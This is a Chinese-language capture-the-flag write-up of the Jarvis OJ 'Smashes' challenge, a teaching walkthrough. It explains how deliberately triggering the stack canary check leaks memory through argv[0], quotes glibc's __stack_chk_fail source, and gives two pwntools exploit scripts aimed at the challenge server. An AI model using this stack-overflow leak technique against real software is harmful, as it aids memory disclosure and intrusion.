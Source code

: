 ```yaml
---
title: Jarvis OJ - Smashes の Write-Up
date: 2020-08-06 11:59:32
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## 前言

Smashes这道题算是一类题型的典型代表，第一次和Canary交手，还好题目比较简单。

<!-- more -->

## Step 1

首先运行程序：

![](/img/Smashes/Smashes1.png)

检查一下保护措施：

![](/img/Smashes/Smashes2.png)

可以看到保护措施还是比较完备的，开启了DEP、Canary和FORTIFY保护。

## Step 2

将程序丢到hopper中，发现了一个关键的主函数：

![](/img/Smashes/Smashes3.png)

  可以看到输入name的时候总体的stack大小为296也就是0x128，但是在rbx会放置Canary，大小为0x20。也就是说当我们输入的字符超过0x108就会覆盖Canary值，然后程序就会报错。如下图所示：

![](/img/Smashes/Smashes4.png)

 而在“Please overwrite the flag: ”后的输入，程序通过_IO_getc(*stdin)接收。但是没有设置范围，只有当遇到‘\n’的时候才会退出循环，继续往下运行。

程序存在Canary保护，所以常规的栈溢出无法实现。经过大佬提点，可以通过故意触发Canary来实现SSP（Stack Smashing Protector）Leak。

## Step 3

首先还是要了解一下Stack Smash。当程序有了Canary保护之后，如果我们尝试缓冲区溢出，那么输入的数据会首先覆盖EBP上面的Canary值。而程序运行的时候会将这个值与原来的Canary值做比较，发现不一样就会报错。通常来说不太会注意报错信息，但是Stack Smash方法就是利用打印的报错信息的程序来得到我们想要的内容。看下程序中检查Canary的部分：

![](/img/Smashes/Smashes5.png)

rax中存放的是程序运行时Canary的值，比较不通过时会调用__stack_chk_fail()函数打印报错信息。找一下__stack_chk_fail()函数的源码：

```C#
void 
__attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
    __fortify_fail ("stack smashing detected"); 
}
```

再继续看下__fortify_fail()函数：

```C#
void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)
```

__stack_chk_fail()函数中调用了__fortify_fail()函数，而在__fortify_fail()函数中调用__libc_message()函数输出了msg和__libc_argv[0]。msg就是"stack smashing detected"，__libc_argv[0]其实是argv[0]，也就是程序名。

在程序执行的时候，argv[0]会放在栈中，利用栈溢出可以将这个值覆盖为我们想要的值。比如某个函数的got表中的值，这样在执行__stack_chk_fail()函数的时候。利用输出报错信息就可以输出想要的got表信息，再加上libc文件偏移就可以获得libc加载的基地址。之后就可以通过基地址进一步利用，获得栈地址及栈中的重要信息。

 扯远了，这道题里我们想的肯定的直接覆盖为flag的地址，首先来了解一下这个程序里栈的布局：

![](/img/Smashes/Smashes6.png)

所以这里有种简单的方法，只要我们能够输入足够长的字符串覆盖掉argv[0]，就可以在触发Canary保护的同时输出flag。

最后一个问题，flag地址在哪里。在hopper中我们分明看到了两个flag地址loc_40084e和loc_400860（在IDA中居然只有一个，以往hopper的伪代码可读性令人头大，这次居然意料之外的压制了IDA），loc_40084e中指向byte [rbx+aPctfheresTheFl]，而loc_400860就指向aPctfheresTheFl：

![](/img/Smashes/Smashes7.png)

但是我们用0x600d20这个地址无法获得flag，这里会被覆盖，所以需要利用byte [rbx+aPctfheresTheFl]位置的flag地址。把程序断在loc_400860函数，然后在程序中寻找‘PCTF’的字样：

![](/img/Smashes/Smashes8.png)

我们再看一下0x600d20位置的flag：

![](/img/Smashes/Smashes9.png)

对照上面我们的输入：

![](/img/Smashes/Smashes10.png)

发现这个位置的flag会被我们的输入所覆盖，所以选择0x400d20位置的flag。

于是给出EXP：

```Python
from pwn import *

sh = remote('pwn.jarvisoj.com', 9877)
  
flag_addr = 0x400d20
payload = p64(flag_addr) * 200
  
sh.recv()
sh.sendline(payload)
sh.interactive()
sh.close()
```

EXP脚本运行结果图：

![](/img/Smashes/Smashes11.png)

## Step 4

虽然解决了问题，但是觉得这样很是不爽。于是继续找一下具体的offset值。

把程序断在主函数sub_4007e0，可以看到程序名字也就是argv[0]已经到了栈中：

![](/img/Smashes/Smashes12.png)

然后再在程序输入名字的位置下个断点：

![](/img/Smashes/Smashes13.png)

可以看到调用__IO_gets接收输入，接收完之后将程序断下来：

![](/img/Smashes/Smashes14.png)

 所以输入地址与argv[0]的距离为：0x7ffd531186d8 - 0x7ffd531184c0 = 0x218，也就是需要padding的部分。

最终第二种方法的EXP脚本：

```Python
from pwn import *

sh = remote('pwn.jarvisoj.com', 9877)
  
flag_addr = 0x400d20
payload = 'a' * 0x218 + p64(flag_addr)
  
sh.recv()
sh.sendline(payload)
sh.interactive()
sh.close()
```

运行结果图：

![](/img/Smashes/Smashes15.png)

